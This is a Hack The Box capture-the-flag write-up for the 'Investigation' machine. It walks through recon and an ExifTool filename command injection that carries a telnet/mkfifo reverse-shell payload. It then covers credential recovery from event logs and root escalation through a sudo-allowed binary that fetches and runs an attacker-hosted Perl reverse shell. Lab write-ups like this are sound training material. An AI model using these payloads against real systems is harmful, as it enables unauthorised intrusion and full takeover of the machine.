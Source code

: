 +++ 
title = "Investigation HTB Write up"
description = "Write up for the HTB machine 'Investigation'"
author = "greatmoves"
tags = ["exiftool", "perl", "hackthebox", "binary ninja", "reverse engineering", "sudo -l", "digital forensics", "linux"]
date = 2023-03-02
+++
- [1. Initial Recon](#1-initial-recon)
  - [1.1. nmap](#11-nmap)
  - [1.2. nikto](#12-nikto)
- [2. website recon](#2-website-recon)
  - [2.1. ExifTool](#21-exiftool)
- [3. user.txt](#3-usertxt)
  - [3.1. file system recon](#31-file-system-recon)
  - [3.2. .msg file](#32-msg-file)
- [4. root.txt](#4-roottxt)
  - [4.1. investigating the binary](#41-investigating-the-binary)
    - [4.1.1. binary ninja](#411-binary-ninja)
    - [4.1.2. final payload](#412-final-payload)

## 1. Initial Recon
----
### 1.1. nmap
cmd `nmap -sC -sV 10.10.11.197`
- From the nmap scan we get the url `http://eforenzics.htb/` which we can add to /etc/hosts
- We have port 22 ssh and port 80 http
### 1.2. nikto
cmd `nikto -host 10.10.11.197`
- found nothing interesting
## 2. website recon
----
- /service.html has a file upload service
    - uploading any image file reveals the ExifTool Version Number 12.37
### 2.1. ExifTool
A quick google search for ExifTool reveals a command injection vulnerability for that version number
- https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429
  - ```Exiftool versions < 12.38 are vulnerable to Command Injection through a crafted filename. If the filename passed to exiftool ends with a pipe character | and exists on the filesystem, then the file will be treated as a pipe and executed as an OS command.```

Our payload will be in the name of the file that we upload to the web application

After trying some payloads from revshells we can eventually use:
- payload: `TF=$(mktemp -u);mkfifo $TF && telnet 10.10.x.x 4444 0<$TF | sh 1>$TF |`
## 3. user.txt
Once we have our reverse shell let's obtain a fully interactive shell with:
`python3 -c 'import pty;pty.spawn("/bin/bash");'`

### 3.1. file system recon
After some recon of the file system we find the directory `/usr/local/investigation`
- from here we can also find our username: `smorton`

Let's download the files

- On the victim machine spin up a http server using `python3 -m http.server`
- On your attacking machine run `curl http://10.10.11.197:8000/Windows%20Even%20Logs%20for%20Analysis.msg > out.msg`

### 3.2. .msg file
Now we need to find what to do with a `.msg` file. Thankfully we can use `https://www.encryptomatic.com/viewer/` to analyse it for us, which will lead us to downloading a zip file, extract the file from the zip.

Now we've got a `.evtx` file and we've gotta figure out what to do with that.
- here's a python module that can help with that `https://pypi.org/project/python-evtx/`
  - run `python3 evtx_dump.py security.evtx > out.json`

In the event logs we can look for basic logon events [Audit logon events (Windows)](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/basic-audit-logon-events)
- The code `4625` is for a `Logon failure. A logon attempt was made with an unknown user name or a known user name with a bad password.`

We can search for this in the event log using `grep`
- `cat out.json | grep "4625" -C 10 > grep.out`
  
From the output of our grep command we can find a password: `Def@ultf0r3nz!csPa$$`

Now we can ssh into the machine with the credentials
```
smorton:Def@ultf0r3nz!csPa$$
```

navigate to `/home/smorton` for `user.txt`
## 4. root.txt
when we run `sudo -l` we can see that there's a binary the user is allowed to run
```
User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

So let's investigate this binary. Same as above let's spin up a http server using python3 on the victim machine and download the binary
- run `python3 -m http.server` on the victim machine
- run `curl http://10.10.11.197:8000/binary > binary.out` on your attacking machine

### 4.1. investigating the binary
let's start by running `strings binary.out`
```
...
Exiting... 
lDnxUysaQn
Running... 
perl ./%s
rm -f ./lDnxUysaQn
...
```

from this we can gather that
- perl is being run on a string
- `lDnxUysaQn` has some significance

#### 4.1.1. binary ninja
binary ninja allows us to decompile the binary and get an idea of what the main function of the binary is doing
{{< highlight c "linenos=inline" >}}
    0000144a      if (argc != 3)
    00001453          puts(str: "Exiting... ")
    0000145d          exit(status: 0)
    0000145d          noreturn
    00001469      if (getuid() != 0)
    00001472          puts(str: "Exiting... ")
    0000147c          exit(status: 0)
    0000147c          noreturn
    0000149d      if (strcmp(argv[2], "lDnxUysaQn") != 0)
    00001687          puts(str: "Exiting... ")
    00001691          exit(status: 0)
    00001691          noreturn
    000014aa      puts(str: "Running... ")
    000014c4      FILE* rax_8 = fopen(filename: argv[2], mode: &data_2027)
    000014cd      int64_t rax_9 = curl_easy_init()
    000014d6      int32_t var_40 = 0x2712
    000014f9      curl_easy_setopt(rax_9, 0x2712, argv[1], 0x2712)
    000014fe      int32_t var_3c = 0x2711
    0000151a      curl_easy_setopt(rax_9, 0x2711, rax_8, 0x2711)
    0000151f      int32_t var_38 = 0x2d
    0000153c      curl_easy_setopt(rax_9, 0x2d, 1, 0x2d)
    00001554      if (curl_easy_perform(rax_9) != 0)
    00001671          puts(str: "Exiting... ")
    0000167b          exit(status: 0)
    0000167b          noreturn
    00001583      int64_t rax_25 = sx.q(snprintf(s: nullptr, maxlen: 0, format: &data_202a, argv[2]))
    00001594      char* rax_28 = malloc(bytes: rax_25 + 1)
    000015c6      snprintf(s: rax_28, maxlen: rax_25 + 1, format: &data_202a, argv[2])
    000015ed      int64_t rax_37 = sx.q(snprintf(s: nullptr, maxlen: 0, format: "perl ./%s", rax_28))
    000015fe      char* rax_40 = malloc(bytes: rax_37 + 1)
    00001629      snprintf(s: rax_40, maxlen: rax_37 + 1, format: "perl ./%s", rax_28)
    00001635      fclose(fp: rax_8)
    00001641      curl_easy_cleanup(rax_9)
    0000164b      setuid(uid: 0)
    00001657      system(line: rax_40)
    00001663      system(line: "rm -f ./lDnxUysaQn")
{{< / highlight >}}

from this we can gather
- the program requires 2 arguments (line 1)
- the second argument must be `lDnxUysaQn` (line 9)
- curl is being used on argument 1 (line 17, line 22)
  - [man page for curl_easy_perform](https://linux.die.net/man/3/curl_easy_perform)
- perl is being run with system (line 31, line 35)

so let's construct a command to run on the victim machine so that it meets the above requirements

#### 4.1.2. final payload
`sudo /usr/bin/binary 10.10.x.x:80/payload.pl lDnxUysaQn`
- we need to be running the binary as sudo, so we need `sudo /usr/bin/binary` at the start
- the first argument is being curled, so let's use `python3 -m http.server 80` to host our payload
  - `10.10.x.x:80/payload.pl` is so the binary curls from our machine
- perl is being run, so let's make our payload a perl script for a reverse shell
  - from [revshells](https://www.revshells.com/) get a perl reverse shell
- finally, `lDnxUysaQn` is required at the end

Spin up the http server on your attacking machine along with a netcat listener

finally, our netcat listener will catch a reverse shell as the root user.